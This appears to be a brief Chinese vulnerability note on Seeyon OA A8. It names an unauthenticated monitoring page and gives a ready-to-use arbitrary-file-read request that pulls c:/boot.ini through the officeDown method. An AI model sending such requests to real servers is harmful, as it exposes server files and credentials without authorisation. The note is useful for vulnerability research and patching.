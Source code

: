 # 致远 OA A8 未授权访问

> 原文：[http://book.iwonder.run/0day/致远 oa/14.html](http://book.iwonder.run/0day/致远 oa/14.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A8

## 三、复现过程

该地址为性能监控后台，存在未授权访问

seeyon/management/status.jsp

任意文件读取漏洞,由于对 filename 未进行过滤，导致可下载读取任意文件

```
http://www.0-sec.org/seeyon/main.do?method=officeDown&filename=c:/boot.ini 
```

